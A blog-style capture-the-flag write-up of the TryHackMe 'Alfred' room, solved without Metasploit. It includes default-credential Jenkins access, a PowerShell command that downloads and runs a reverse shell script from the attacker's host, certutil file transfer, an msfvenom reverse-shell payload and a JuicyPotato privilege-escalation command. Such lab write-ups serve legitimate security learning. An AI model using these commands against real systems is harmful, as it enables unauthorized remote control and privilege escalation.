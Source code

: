 ```yaml
---
layout: post
title: "TryHackMe - Alfred walkthrough without metasploit"
---
```


# Intro

Just to get things clear, I am a total noob so take the information provided with a generous pinch of salt.

This post is meant for documentation purposes and I wanted to share it because most of the walkthroughs online follow the intended way of using metasploit(meterpreter). While I think that metasploit is a powerful tool, I wanted to find a solution without using it because I thought it would be an interesting learning experience.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687792699119/afd6c737-6ecc-4256-aa15-8696fc5b792a.png)

# Recon

```bash
nmap -sCV -Pn $TARGET_IP
```

A standard `nmap` scan shows that there are 3 TCP ports open: 80, 3389, 8080. `-Pn` is added to save some time on the scan because it is save to assume the challenge machine is always up when you scan it.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687793834467/39355145-267d-4495-aa7e-f164406248e3.png )

When navigating to the site at `http://$IP:8080` we encounter a Jenkins login page, a successful login attempt is achieved by inputting default admin credentials `admin:admin`. Although this might seem intentional, you might be surprised how many admin portals have default credentials in the wild.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687793891567/2eeb4b1b-2c32-4e09-80c3-4667141e43f1.png )

We are greeted with the Jenkins dashboard once we are logged in

Navigate to `project` &gt; `Configure`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687794300609/e119cf7f-5bc2-412d-8be1-794ba958054c.png )

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687794476709/dc1f54b3-b28e-4a53-93dd-7d9fcd8e99b9.png )

Windows batch commands can be executed under the `Build` section.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687771956497/105575e5-f209-4f0b-9044-f90a4a856faa.png )

The room provides you with the PowerShell command to get a reverse shell on the target, replace the command and click `Save`.

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687794609689/d1688510-1162-4785-ba26-3e6aed0b215b.png )

The first part of the command will serve a [reverse shell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to the target, you must first host an HTTP server with `python3 -m http.server $PORT` on your machine, replace the IP and port in the PowerShell command accordingly.

In case you are using OpenVPN to connect to the challenge, your IP is under `tun0` when you use `ip addr ls`. Otherwise, it would be listed in the format of `root@$IP` in your terminal when using the attack box provided by TryHackMe.

The second part of the command separated by `;` starts the reverse shell script you just uploaded. On your machine set up a listener with `nc -nlvp $PORT`.

You should be able to obtain a PowerShell with your `nc` listener once you press `Build Now`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687794730988/ecdf58c6-b241-4d96-8133-aeb829973e06.png )

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687794785108/ed33ce31-1267-4867-8262-bff85b204320.png )

# Privilege Escalation

`whoami /priv` reveals that `SeDebugPrivilege, SeImpersonatePrivilege` are enabled which could allow for a token impersonation attempt.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687794913762/ccc4da1b-c100-4201-aab1-51f37169fd3a.png )

`systeminfo` reviews that the target is running x64 Windows 7 which will enable us to use [JuicyPotato](https://github.com/ohpe/juicy-potato) to perform privilege escalation. This [article](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505) explains the concept quite well, give it a read to learn more about the escalation method.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687795029150/2e4560cf-5ce6-43d9-9aa5-628d14906a30.png )

Serve the JuicyPotato 64-bit executable to the target by using the same method of hosting a python3 server on our machine. This time, use `certutil -urlcache -f http://$YOUR_IP:$YOUR_PORT/jp.exe jp.exe` in the PowerShell we obtained with our listener to transfer the executable.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687795166919/fa9b3521-802b-4d6b-bbdf-5f3c280823a3.png )

One more step is required before spawning a privileged shell on our machine. There are many ways to connect back with JuicyPotato such as using `netcat`(the binary is served to the target using the same method as JuicyPotato). Here I opted for the TCP reverse shell generated by `msfvenom`. I did not bother with encoding as this is a beginner-level room, if not then `shikata_ga_nai` should do the trick "most" of the time.

```bash
 msfvenom -p windows/x64/shell_reverse_tcp lhost=$IP lport=$PORT -f exe > rev.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687795405828/981b3023-e632-4f19-9557-43a2fdb8b5f5.png )

To execute the privilege escalation, check that the target has both the JuicyPotato and the `msfvenom` reverse shell executable and set up another listener with `nc` on the port used in generating the reverse shell with `msfvenom`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687795372399/30856d45-7c87-408a-a310-5b05651a18f3.png )

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687795429361/d829a3d3-009f-4c79-8fee-5336705c3797.png )

Finally, execute the PowerShell command.

```powershell
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p rev.exe -t *
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687795479847/ef2dfe13-f2c2-487b-95fd-35f90ae0e997.png )

With the privileged shell, navigate to `C:\Windows\System32\config` to obtain the root flag and complete the room.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687795814991/9b821ff0-a1db-442a-9c25-e9b809a4967c.png )

# Detours (Not part of the walkthrough)

I will share what I tried and failed in this section. Due to my skill level, most of the conclusions made will likely be wrong. Feel free to point me in the right direction so I can learn more about the topic.

## GodPotato

After looking through the [GodPotato](https://github.com/BeichenDream/GodPotato) GitHub page, I assumed that the tool has some level of dependency on the target's .NET framework version. A quick ChatGPT tour gave me a PowerShell command to check for the version on the target.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687833168842/02803bab-406a-4b4e-a1c7-2549614d88e8.png )

During my trial and error phase, I loaded both the NET2 and NET35 executables to the target and got similar results.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687833264053/c23e8f81-06b1-46d0-bf8f-c26b0188363b.png )

After further research on the nature of the exploit, I suspect that it has something to do with how the challenge machine was set up. As far as I know, the potato family of exploits relies on tricking the `NT AUTHORITY\SYSTEM` account into authenticating via NTLM. This was as far as I could go in terms of finding out why the tool did not work for this machine as I have reached the limit of my understanding on the topic. However, I suspect that there might be methods to check for compatibility with this tool similar to that of the .NET framework version check above. My guess is something along the lines of checking whether the service required for this exploit is running on the target machine.

## PrintSpoofer

During the recon phase, we concluded that the target machine is running x64 Windows 7 so I served the 64-bit version of the [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) executable onto the target machine.

For consistency's sake with the demo from the GitHub page I connected back to my machine with `cmd` using a `netcat` binary which I served to the target.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687835030267/b0f5fed7-e03d-4436-8deb-99a1ca9b92dd.png )

This method proved to be uneventful as I could not even invoke the `-h` help command with the executable.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687835176666/2d50791c-403a-4e16-a53d-98fde09c7fae.png )

Just for the sake of it, I also tried with the 32-bit executable.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687835353603/697c5199-f382-4320-b079-1931a130ecf1.png )
